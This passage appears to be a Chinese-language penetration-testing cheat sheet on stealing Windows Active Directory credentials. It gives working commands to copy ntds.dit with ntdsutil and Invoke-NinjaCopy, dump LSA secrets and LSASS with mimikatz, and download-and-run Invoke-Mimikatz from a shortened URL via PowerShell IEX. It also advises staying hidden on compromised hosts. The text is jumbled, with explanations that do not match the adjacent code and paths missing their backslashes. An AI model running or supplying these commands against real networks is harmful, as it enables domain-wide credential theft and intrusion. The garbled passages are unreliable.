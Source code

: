 防：管理员不应该拿着域用户去登录 web 服务器或者邮件服务器一但这些被攻破抓取的密码就是域了

### ARP

最后才是 ARP 欺骗不到最后不要拿出来。

```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```

**获取 AD Hash**
--------------

```
https://github.com/PowerShellMafia/PowerSploit
```

活动目录数据库（ntds.dit）：  

Active Directory 域数据库存储在 ntds.dit 文件中（默认存储在 c:WindowsNTDS 中, AD 数据库是 Jet 数据库引擎，它使用提供数据存储和索引服务的可扩展存储引擎（ESE）ESE 级索引使对象属性可以快速定位。ESE 确保数据库符合 ACID（原子性，一致性，隔离性和持久性） – 交易中的所有操作完成或不执行。AD ESE 数据库非常快速和可靠。

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1'); Invoke-NinjaCopy -Path "C:windowsntdsntds.dit" -ComputerName "AD" -LocalDestination "C:tempntds.dit"
```

ntds.dit 文件由三个主表组成：数据表，链接表和 SD 表。  

具体详细资料查看:

```
mimikatz lsadump::lsa /inject exit
```

**使用 VSS 卷影副本**  

什么是卷影副本?

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

支持操作系统：

```
sekurlsa::minidump c:templsass.dmp
```

通常拿下一台服务器时准备内网渗透，需要传你的工具到目标机器中，而且是长久渗透的这种，为了不被发现！获取系统 SAM 文件等  

使用 VSS 卷影副本（通过 WMI 或 PowerShell 远程处理）远程提取 ntds.dit

Windows 有一个名为 WMI 的内置管理组件，支持远程执行（需要管理员权限）。WMIC 是在远程计算机上执行命令的 WMI 命令工具。

利用 WMIC（或 PowerShell 远程处理）创建（或复制现有的）VSS。

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'
```

查看 vss.log
